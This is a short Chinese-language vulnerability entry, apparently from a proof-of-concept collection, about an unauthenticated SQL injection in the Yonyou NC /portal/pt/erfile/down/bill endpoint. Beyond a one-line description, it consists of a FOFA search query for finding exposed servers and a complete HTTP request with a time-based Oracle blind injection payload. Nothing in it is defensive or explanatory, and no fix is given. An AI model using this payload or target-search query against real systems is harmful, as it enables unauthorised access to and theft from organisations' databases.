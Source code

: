 ## 用友NC-bill存在SQL注入漏洞

用友NC /portal/pt/erfile/down/bill存在SQL注入漏洞，未经身份验证的攻击者可通过该漏洞获取数据库敏感信息。

## fofa
```
icon_hash="1085941792" && body="/logo/images/logo.gif"
```


## poc
```
GET /portal/pt/erfile/down/bill?pageId=login&id=1'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),5)-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

```
